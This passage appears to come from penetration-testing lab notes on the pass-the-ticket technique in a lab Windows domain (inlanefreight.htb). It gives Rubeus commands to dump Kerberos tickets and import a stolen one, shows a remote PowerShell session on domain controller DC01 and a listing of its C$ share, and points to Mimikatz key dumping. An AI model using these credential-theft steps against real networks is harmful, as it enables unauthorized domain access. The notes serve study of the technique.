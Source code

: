 With the ticket successfully imported:

```batch
c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```

## Doing it all with one tool:

### Rubeus only

#### Step 1: Harvest Kerberos tickets from current session:

```batch
c:\tools> Rubeus.exe dump /nowrap
```

#### Step 2:

```batch
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKg...<SNIP>...
 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.5.0


[*] Action: Import Ticket
[+] ticket successfully imported!
```

Which grants us access as the target user:

```batch
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

<SNIP>
```

### Mimikatz Only

Check \[This]\(Pass the Ticket - Windows#Method 4 Mimikatz) and \[this]\(#Step1 Dump all user's Kerberos encryption keys with Mimikatz **sekurlsa ekeys** module).
